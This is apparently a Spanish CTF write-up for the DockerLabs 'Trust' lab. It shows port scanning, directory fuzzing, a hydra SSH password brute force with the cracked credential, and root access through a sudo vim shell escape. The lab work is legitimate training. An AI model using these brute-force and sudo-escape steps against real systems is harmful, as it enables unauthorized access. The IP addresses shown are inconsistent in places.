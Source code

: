 ```yaml
---
title: Trust
description: DockerLabs es una plataforma gratuita diseñada para practicar hacking ético al alcance de todo el mundo utilizando Docker. DockerLabs ofrece un entorno seguro y accesible para desplegar laboratorios vulnerables de la forma más eficiente y sencilla posible.
date: 2025-01-03
toc: true
pin: false
image:
 path: /assets/img/dockerlabs-writeup-trust/trust_logo.png
categories:
  - Docker_Labs
tags:
  - linux
  - dockerlabs
  - ssh
  - http
  - tcp
  - fuzzing_web
  - password_attacks
  - sudo_abuse
  - information_gathering
  - web_analysis
  - vulnerability_exploitation
  - privilege_escalation

---
```

## Information Gathering

El análisis inicial comienza con el comando ping para confirmar la accesibilidad de la máquina objetivo en la red.

```terminal
/home/kali/Documents/dockerlabs/trust:-$ ping -c 1 127.18.0.2
PING 127.18.0.2 (127.18.0.2) 56(84) bytes of data.
64 bytes from 127.18.0.2: icmp_seq=1 ttl=64 time=0.044 ms

--- 127.18.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.044/0.044/0.044/0.000 ms
```

Realizo un escaneo agresivo de puertos con nmap, lo que me permite identificar rápidamente todos los puertos abiertos. 

```terminal
/home/kali/Documents/dockerlabs/trust:-$ sudo nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv -oG nmap1.2 127.18.0.2
Host: 127.18.0.2 ()     Status: Up
Host: 127.18.0.2 ()     Ports: 22/open/tcp//ssh///, 80/open/tcp//http///        Ignored State: closed (65533)
```

Profundizo en los puertos detectados, recopilando información detallada sobre los servicios y versiones en ejecución.

```terminal
/home/kali/Documents/dockerlabs/trust:-$ sudo nmap -sCV -p22,80 -vvv -oN nmap2 127.18.0.2
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 19:a1:1a:42:fa:3a:9d:9a:0f:ea:91:7f:7e:db:a3:c7 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHjaznpuQYsT/kxLXSVDFJGTtesV6UrUh5aNJhw+tAdr19MnZpuY/8e0gb+NXRebo5Dcv/DP1H+aLFHaS6+XCGw=
|   256 a6:fd:cf:45:a6:95:05:2c:58:10:73:8d:39:57:2b:ff (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJW/dREGeklk/wsHXisOmbmVwP9zg7U8xS+OfHkxLF0Z
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.57 ((Debian))
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.57 (Debian)
|_http-title: Apache2 Debian Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
```terminal
/home/kali/Documents/dockerlabs/trust:-$ whatweb 127.18.0.2
http://127.18.0.2 [200 OK] Apache[2.4.57], Country[RESERVED][ZZ], HTTPServer[Debian Linux][Apache/2.4.57 (Debian)], IP[127.18.0.2], Title[Apache2 Debian Default Page: It works]
```

---
## Web Analysis

La página web inicial parece ser una plantilla predeterminada de Apache.

![](assets/img/dockerlabs-writeup-trust/trust1.png)

Durante el proceso de fuzzing, encuentro una pagina PHP accesible, ```secret.php```.

```terminal
/home/kali/Documents/dockerlabs/trust:-$ dirb http://127.18.0.2 -X .html,.conf,.txt,.php,.md
---- Scanning URL: http://127.18.0.2/ ----
+ http://127.18.0.2/index.html (CODE:200|SIZE:10701)
+ http://127.18.0.2/secret.php (CODE:200|SIZE:927)
```

![](assets/img/dockerlabs-writeup-trust/trust2.png)

---
## Vulnerability Exploitation

En este punto, decido realizar un ataque de fuerza bruta al servicio SSH utilizando ```mario``` como nombre de usuario.

```terminal
/home/kali/Documents/dockerlabs/trust:-$ sudo hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.18.0.2 -t 10 -I
[22][ssh] host: 172.17.0.2   login: mario   password: chocolate
```

![](assets/img/dockerlabs-writeup-trust/trust3.png)

El ataque tiene éxito y obtengo las credenciales SSH.

```terminal
/home/kali/Documents/dockerlabs/trust:-$ ssh mario@127.18.0.2
mario@127.18.0.2's password: chocolate

mario@kali:~$ whoami
mario
```

---
## Privilege Escalation

```terminal
mario@kali:~$ cat /etc/passwd | grep /bash$
root:x:0:0:root:/root:/bin/bash
mario:x:1000:1000:mario,,,:/home/mario:/bin/bash
```

El usuario ```mario``` puede ejecutar el comando ```/usr/bin/vim``` como cualquier usuario.

```terminal
mario@kali:~$ sudo -l
[sudo] password for mario: chocolate

Matching Defaults entries for mario on kali:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User mario may run the following commands on kali:
    (ALL) /usr/bin/vim
```

Consultando [GTFOBins](https://gtfobins.github.io/gtfobins/vim/#sudo), encuentro que vim puede ser utilizado para ejecutar una shell con privilegios elevados cuando se invoca con sudo.

![](assets/img/dockerlabs-writeup-trust/trust4.png)

```terminal
mario@kali:~$ sudo /usr/bin/vim -c ':!/bin/sh'
# id
uid=0(root) gid=0(root) groups=0(root)
```

